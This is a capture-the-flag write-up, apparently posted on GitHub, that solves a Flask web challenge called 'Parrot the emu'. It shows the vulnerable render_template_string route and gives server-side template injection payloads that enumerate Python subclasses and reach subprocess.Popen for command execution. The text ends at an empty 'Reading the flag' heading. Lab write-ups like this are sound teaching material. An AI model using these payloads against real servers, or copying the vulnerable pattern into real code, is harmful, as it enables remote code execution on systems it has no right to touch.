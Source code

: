 * * *
![image](https://github.com/user-attachments/assets/744acab1-abef-48c8-babd-c61ed1646cc9)

* * *

### **Challenges**

### **Web**

-     Parrot the emu
-     Zoo feedback form
-     Co2
-     Confusion

---------------------------------

### Web

### Challenge: Parrot the emu

----------------------------------

![image](https://github.com/user-attachments/assets/8f1e8226-6491-4ec6-8705-30129f0adc5e)


- The index route `/` is the vulnerable part of the web app's code. The index page passes the `user_input` variable  to  the `render_template_string()` which is vulnerable to server side template injection in flask web apps' code.It allows an attacker to inject code into templaates.

      @app.route('/', methods=['GET', 'POST'])
      def vulnerable():
          chat_log = []
      
          if request.method == 'POST':
              user_input = request.form.get('user_input')
              try:
                  result = render_template_string(user_input)
              except Exception as e:
                  result = str(e)
      
              chat_log.append(('User', user_input))
              chat_log.append(('Emu', result))
          
          return render_template('index.html', chat_log=chat_log)

- Testing our little fact by executing \{\{7*7\}\},the server returned the value `49`

![image](https://github.com/user-attachments/assets/f30a52a9-2651-4f55-8e01-c577b0da806b)

### RCE

- I used the payload \{\{''.\_\_class\_\_.\_\_base\_\_.\_\_subclasses\_\_()\}\} to access the classes available

![image](https://github.com/user-attachments/assets/a4b3b2a7-ca56-4dbd-812d-d42543db5721)

- After checking the list of available, I got shell command access with class `subprocess.Popen` on index `213`

       Payload: {{''.__class__.__base__.__subclasses__()[213]}}

![image](https://github.com/user-attachments/assets/ce45878b-c7f2-4b2a-9005-6784a09b30a3)

### Reading the flag





  



